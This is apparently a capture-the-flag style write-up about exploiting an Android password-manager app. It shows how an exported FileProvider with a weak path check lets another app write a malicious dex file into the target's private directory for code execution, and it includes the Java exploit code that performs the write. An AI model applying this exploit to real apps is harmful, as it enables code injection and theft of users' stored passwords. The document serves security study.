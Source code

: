 
here is the setup java we can add anything into method start example http scan file then post it using http
```java
package com.aimardcr.pwdmanager;
public class Debug {
    public static void start() {
    }

    public static void stop() {
    }
}
```
But how we can create **`/data/data/com.aimardcr.pwdmanager/files/debugger`** file contains our malicious dex ?

therefore
com.aimardcr.pwdmanager/AndroidManifest.xml
```xml
<provider
android:name="com.aimardcr.pwdmanager.providers.MyFileProvider"
android:enabled="true"
android:exported="true"
android:authorities="com.aimardcr.pwdmanager"/>
```
the provider can be used in another package

MyFileProvider.java
```java
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    if (uri.toString().contains("..")) {
        throw new FileNotFoundException("Invalid path");
    }
    File file = new File(getContext().getCacheDir(), uri.getPath());
    return ParcelFileDescriptor.open(file, 973078528);
}
```

The value 973078528 in the context of ParcelFileDescriptor.open(file, 973078528) is a bitmask used to specify the mode in which the file should be opened. In this case, it’s a combination of flags that determine the read/write permissions, file creation, and truncation. To understand which flags are set, you can use bitwise operations or look the value in the codebase to see how it's used.

- `ParcelFileDescriptor.MODE_READ_ONLY` (0x00000001): Open the file for reading only.
- `ParcelFileDescriptor.MODE_WRITE_ONLY` (0x00000002): Open the file for writing only.
- `ParcelFileDescriptor.MODE_READ_WRITE` (0x00000003): Open the file for both reading and writing.
- `ParcelFileDescriptor.MODE_CREATE` (0x00000008): Create the file if it does not already exist.
- `ParcelFileDescriptor.MODE_TRUNCATE` (0x00000010): Truncate the file to zero length.
- `ParcelFileDescriptor.MODE_APPEND` (0x00000020): Open the file for appending.

from this we know we can do filewrite to the com.aimardcr.pwdmanager using shared com.aimardcr.pwdmanager.providers.MyFileProvider

here is the code to write

```java
Uri fileUri = Uri.parse("content://com.aimardcr.pwdmanager/"+location);
ContentResolver contentResolver = context.getContentResolver();
ParcelFileDescriptor pfd = contentResolver.openFileDescriptor(fileUri, "w"); // Open file in write mode
Log.d(TAG, "ParcelFileDescriptor opened");

if (pfd != null) {

    FileOutputStream fileOutputStream = new FileOutputStream(pfd.getFileDescriptor());
    String maliciousData = content;

    fileOutputStream.write(maliciousData.getBytes());
    fileOutputStream.close();
```